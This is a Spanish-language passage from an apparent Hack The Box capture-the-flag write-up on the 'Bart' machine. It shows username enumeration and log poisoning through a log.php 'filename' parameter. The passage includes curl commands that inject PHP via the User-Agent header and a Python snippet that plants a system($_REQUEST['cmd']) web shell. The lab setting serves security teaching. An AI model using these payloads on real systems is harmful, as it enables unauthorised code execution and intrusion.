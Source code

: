 Podriamos tratar de modificar el campo `username` para ver que nos devuelve el servidor y tenemos que para los usuarios válidos tenemos una respuesta de **1** y para otros vemos un **0**. Además, analizando el recurso, vemos que posiblemente se está tramitando algo hacia un recurso a llamado `log.txt`; por lo que vamos a echarle un ojo al recurso `/log/log.txt`:

![""](/assets/images/htb-bart/bart-log1.png)

Vemos que cada ves que hacemos una consulta hacia http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey, se ve reflejado en el recurso http://internal-01.bart.htb/log/log.txt; además es posible que podamos crear archivos debido al parámetro `filename`:

 - http://internal-01.bart.htb/log/log.php?filename=k4miyo.txt&username=daniel
 - http://internal-01.bart.htb/log/k4miyo.txt

Tenemos la posibilidad de crear archivos dentro del recurso, por lo que ya debemos estar pensando en un ***log poisoning*** enviando comandos a través del header:

```bash
❯ curl -s -H "User-Agent: <?php system('whoami') ?>" http://internal-01.bart.htb/log/log.php\?filename=k4miyo.txt\&username=daniel
```

![""](/assets/images/htb-bart/bart-log2.png)

Vemos que nuestro código no se interpreta y esto es normal debido a que estamos creando un archivo de texto (txt). Vamos a cambiar la extensión por **php**

```bash
❯ curl -s -H "User-Agent: <?php system('whoami') ?>" http://internal-01.bart.htb/log/log.php\?filename=k4miyo.php\&username=daniel
```

![""](/assets/images/htb-bart/bart-log3.png)

Para trabajar un poco mejor, vamos a generar una variable que nos permita ejecutar comados y a través de python para evitar problemas con los caracteres especiales en bash:

```bash
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> headers = {'User-Agent' : '<?php system($_REQUEST["cmd"]); ?>'}
>>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=shell.php&username=daniel', headers=headers)
>>>
```
